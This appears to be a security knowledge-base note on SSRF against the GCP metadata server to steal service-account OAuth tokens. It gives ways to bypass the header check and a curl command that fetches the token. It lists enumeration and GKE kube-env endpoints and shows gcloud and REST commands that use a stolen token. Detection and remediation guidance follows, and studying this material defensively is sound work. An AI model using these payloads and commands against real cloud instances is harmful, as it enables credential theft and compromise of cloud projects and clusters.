

# 77.03 GCP Metadata Server SSRF to Credential Theft

## 1. Introduction to the GCP Metadata Server

In cloud environments, instances (Virtual Machines, containers, serverless functions) need a way to learn about themselves and the environment they are running in. Google Cloud Platform (GCP) provides the Instance Metadata Server for this purpose. The Metadata Server is a local HTTP server that is accessible only from within the instance itself, located at the non-routable link-local IP address `169.254.169.254` or the DNS name `metadata.google.internal`.

The Metadata Server acts as a central repository for instance-specific data, including:
*   Instance hostname and ID
*   Project ID and network configurations
*   Startup and shutdown scripts
*   Custom metadata attributes defined by the user
*   **Most Critically: Service Account Access Tokens**

When a GCP compute resource is configured to run as a specific Identity (a Service Account), the GCP infrastructure automatically provisions short-lived OAuth 2.0 access tokens for that identity and serves them via the Metadata Server. If an application running on the instance is vulnerable to Server-Side Request Forgery (SSRF), an attacker can coerce the application into making an HTTP request to the Metadata Server, extracting these highly sensitive tokens.

## 2. Architecture and Attack Execution Flow

The typical attack flow involves finding an application endpoint that takes a URL as user input and fetches it on the server side.



## 3. The "Metadata-Flavor: Google" Protection

Historically (prior to metadata v1), GCP's metadata server was highly vulnerable to simple SSRF. An attacker could use a basic GET request to retrieve data.

To mitigate this, Google introduced a strict security requirement for the `v1` endpoint. **Every request to the metadata server must include the custom HTTP header:**

`Metadata-Flavor: Google`

If this header is missing, the metadata server immediately rejects the request with a `403 Forbidden` error. This defense mechanism is designed to defeat standard SSRF vulnerabilities. If an application simply uses `curl` or `requests.get()` on a user-provided URL without allowing the user to control the HTTP headers, the SSRF cannot successfully query the `v1` metadata endpoint.

### Bypassing the Protection

While the header requirement stops basic SSRF, it does not stop all SSRF variants. Attackers look for specific conditions to bypass this restriction:

1.  **Header Injection / CRLF Injection**: If the application is vulnerable to HTTP Header Injection, the attacker can inject `\r\nMetadata-Flavor: Google` into the request.
2.  **Full SSRF / Header Control**: In some applications (like webhooks, customized integrations, or proxy services), the user is allowed to specify custom headers to be sent along with the outbound request. The attacker simply provides the required header.
3.  **Legacy v0.1 Endpoints (Deprecated but historically relevant)**: The `v0.1` and `v1beta1` endpoints did not strictly enforce the header, though GCP has phased these out entirely in modern environments.
4.  **Kubelet API SSRF in GKE**: In Google Kubernetes Engine (GKE), SSRF might target the local kubelet API rather than the GCP metadata server directly, leveraging different authentication architectures.

## 4. Exploitation Payloads and Endpoints

Assuming the attacker has found an SSRF vulnerability where they can control headers (or inject them), the next step is targeting specific paths on the Metadata Server.

### 4.1 Extracting the Access Token
This is the primary goal. The token allows the attacker to impersonate the instance's service account.

**Target URL:**
`http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token`
*(Note: 'default' here is an alias for whatever service account is attached to the instance, not necessarily the actual Default Service Account, though it often is).*

**cURL Equivalent:**
```bash
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```

**Response Output:**
```json
{
  "access_token": "ya29.c.b0AXv0z...",
  "expires_in": 3599,
  "token_type": "Bearer"
}
```

### 4.2 Enumerating the Environment
Before acting, an attacker will gather context to understand their position in the GCP hierarchy.

**Project Information:**
`http://metadata.google.internal/computeMetadata/v1/project/project-id`

**Instance Name and Zone:**
`http://metadata.google.internal/computeMetadata/v1/instance/name`
`http://metadata.google.internal/computeMetadata/v1/instance/zone`

**Custom Attributes (Often contains sensitive data like DB passwords or API keys):**
`http://metadata.google.internal/computeMetadata/v1/instance/attributes/`
*(Note: Appending `?recursive=true` to the URL returns the entire tree as a JSON object, which is highly efficient for exfiltration).*

### 4.3 Kube-env in GKE
If the target is a node within a Google Kubernetes Engine (GKE) cluster, a specific attribute contains highly sensitive bootstrapping credentials.

**Target URL:**
`http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env`

This endpoint returns a payload containing certificates and tokens used by the node to join the cluster. Historically, extracting this payload allowed attackers to compromise the entire GKE cluster by extracting the `kubelet` credentials and pivoting to cluster-admin.

## 5. Using the Compromised Token

Once the OAuth token (`ya29...`) is extracted, the attacker configures their local environment to use it. These tokens are short-lived (usually expiring in 1 hour), so attackers must work quickly to establish persistence or exfiltrate data.

**Using the token with gcloud:**
```bash
# Set the token directly in the gcloud configuration
gcloud config set access_token "ya29.c.b0AXv0z..."

# Set the target project (extracted from metadata previously)
gcloud config set project target-project-id

# Verify identity and access
gcloud auth list
gcloud compute instances list
```

**Using the token via raw REST API calls:**
```bash
curl -H "Authorization: Bearer ya29.c.b0AXv0z..." \
  "https://cloudresourcemanager.googleapis.com/v1/projects/target-project-id"
```

## 6. GKE Workload Identity vs. Metadata Concealment

In GKE, pods running on a node share the same underlying compute instance. By default, any pod can query the metadata server and receive the token of the *Node's* Service Account. This means a vulnerability in one low-privileged container could lead to the compromise of the node's identity.

### Legacy Mitigation: Metadata Concealment
Google previously offered Metadata Concealment, which deployed a proxy DaemonSet to intercept traffic to `169.254.169.254` and block requests to sensitive paths like `/kube-env` and `/token`. This was easily bypassed and is now deprecated.

### Modern Solution: Workload Identity
The robust solution in GKE is Workload Identity. It binds Kubernetes Service Accounts (KSAs) to Google Service Accounts (GSAs).
When Workload Identity is enabled, GKE deploys a local metadata server daemon (GKE Metadata Server) on each node.
1. A pod makes a request to `169.254.169.254`.
2. The request is intercepted by the GKE Metadata Server.
3. The server identifies which pod made the request.
4. It returns an access token specifically for the GSA associated with that specific pod's KSA, *not* the underlying node's GSA.

Even if an attacker achieves SSRF in a pod, they only receive the scoped, least-privilege token assigned to that specific application.

## 7. Detection and Defense Strategies

### Threat Hunting and Detection
*   **VPC Flow Logs**: Monitor for unusual traffic volumes originating from instances destined for `169.254.169.254`. While frequent communication is normal, large bursts or unusual patterns might indicate recursive metadata dumping.
*   **Audit Logs**: The theft of the token itself is not logged in GCP Cloud Audit Logs because the request happens locally on the instance. However, you *can* detect the **use** of the token. Look for API calls originating from anomalous IP addresses outside your VPC using the Service Account's identity. If a token generated for a Compute Engine instance in `us-central1` is suddenly used from an IP address in Eastern Europe, it is highly indicative of token theft.
*   **WAF (Web Application Firewall)**: Implement WAF rules to detect and block incoming HTTP requests containing the string `metadata.google.internal` or `169.254.169.254` in URL parameters or headers.

### Remediation Best Practices
1.  **Strict Input Validation**: Eradicate SSRF vulnerabilities in the application code. Never fetch URLs based on unvalidated user input. If required, implement a strict allowlist of domains.
2.  **Disable Header Forwarding**: Ensure applications and proxies do not forward arbitrary user-supplied HTTP headers to internal destinations.
3.  **Principle of Least Privilege (IAM)**: Ensure the Service Account attached to the instance has only the exact permissions needed for the application to function. Do not use Default Service Accounts with the Editor role.
4.  **Network Policies / Egress Rules**: Restrict egress traffic from the instance. While you generally cannot block traffic to the metadata server via standard GCP firewall rules, you can use application-level firewalls or eBPF tooling to restrict which processes can communicate with the IP address.
5.  **Enforce Workload Identity**: In Kubernetes environments, mandate the use of Workload Identity to prevent node-level token compromise.

## Chaining Opportunities
*   The token extracted via SSRF is often from a Default Service Account, leading directly to the exploitation paths in [[02 - Exploiting GCP Default Service Accounts]].
*   Once an attacker has a token, they will attempt to enumerate IAM policies to find paths for [[01 - GCP IAM Privilege Escalation Vectors]].
*   Stolen credentials are frequently used to discover and access data via [[04 - GCP Cloud Storage Public Bucket Access]].

## Related Notes
*   [[01 - GCP IAM Privilege Escalation Vectors]]
*   [[02 - Exploiting GCP Default Service Accounts]]
